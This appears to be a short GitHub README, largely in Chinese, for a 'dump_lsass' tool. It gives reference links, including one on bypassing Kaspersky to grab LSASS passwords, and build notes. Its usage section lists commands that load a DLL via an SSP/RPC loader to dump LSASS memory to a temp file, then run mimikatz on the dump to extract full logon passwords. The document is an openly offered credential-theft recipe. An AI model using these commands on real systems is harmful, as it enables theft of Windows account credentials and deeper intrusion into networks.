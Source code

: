 # dump_lsass
# 参考
```
https://www.4hou.com/posts/y6jW
https://blog.ateam.qianxin.com/post/zhe-shi-yi-pian-bu-yi-yang-de-zhen-shi-shen-tou-ce-shi-an-li-fen-xi-wen-zhang/#442-%E7%BB%95%E8%BF%87%E5%8D%A1%E5%B7%B4%E6%96%AF%E5%9F%BA%E6%8A%93lsass%E4%B8%AD%E7%9A%84%E5%AF%86%E7%A0%81
https://gist.github.com/xpn/c7f6d15bf15750eae3ec349e7ec2380e
```
对于代码做了部分修改，使用vs2019编译，选择x64编译
# 使用方法
···
ssp_rpc_loader.exe Dll1.dll
dir c:\windows\temp
mimikatz.exe "sekurlsa::minidump 1.bin" "sekurlsa::logonPasswords full" "exit"
···
